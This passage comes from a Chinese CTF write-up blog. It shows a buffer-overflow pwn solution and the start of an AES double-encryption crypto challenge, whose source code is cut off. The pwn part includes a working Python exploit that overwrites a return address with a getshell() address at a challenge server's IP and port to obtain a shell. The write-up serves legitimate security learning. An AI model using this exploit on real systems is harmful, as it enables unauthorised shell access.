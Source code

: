 ![img](/images/in-post/post-blog-jserv19.png)

只需要程序的返回地址为getshell()的地址，就会触发执行了。查询得到getshell的起始地址为0804 85cb

![img](/images/in-post/post-blog-jserv20.png)

栈溢出的原理可以参考链接[[栈溢出](https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/stackoverflow_basic.html)]

```python
from zio import *
from pwn import *
io = zio(('202.121.178.181', 12321 ))
io.read_until('Do you want to get acquainted with top experts and like-minded friends in computer security?')  
io.writeline('Yes!')  
io.read_until('Do you want to stride forwards on the road of hacking and explore endless possibilities?')  
io.writeline('Yes!!')
io.read_until('Do you want to challenge world cutting-edge technology and compete with outstanding hackers?')
io.writeline('Yes!!!')
success_addr = 0x080485cb
payload = 'a' * 0x3fc + "bbbb" + p32(success_addr)
io.writeline(payload)  
io.interact()  
```

运行代码
![img](/images/in-post/post-blog-jserv21.png)

cd 进入 /home/.../stack 目录，cat 显示flag。
![img](/images/in-post/post-blog-jserv22.png)

## Have Idea

<p id = "j11"></p>
### 11.aes-duet

题目描述为一个链接[[aes_duet.zip](https://ctf.0ops.sjtu.cn/attachment/download/aes_duet.zip)]，解压得到一个密文和加密函数，文件如下

```python
from Crypto.Cipher import AES
def dummy_key_extend(k):
    assert len(k) == 4
    return k * 4

def aes_duet(plain, key):
    # It is so safe that I use AES twice here!
    assert len(key) == 8
    k1 = dummy_key_extend(key[:4])
    k2 = dummy_key_extend(key[4:])
    c1 = AES.new(k1, AES.MODE_ECB)
    c2 = AES.new(k2, AES.MODE_ECB)
    return c2.encrypt(c1.encrypt(plain))
if __name__ == '__main__':
    with open('./secretkey', 'rb') as f:
        key = f.read()
    # To make life easier...
    assert (key.encode('hex'))[0] == '0'
    assert (key.encode('hex'))[-1] == '8'
    
    plain = 'I am a piece of lovely plaintext'
    with open('ciphertext', 'wb') as f:
```
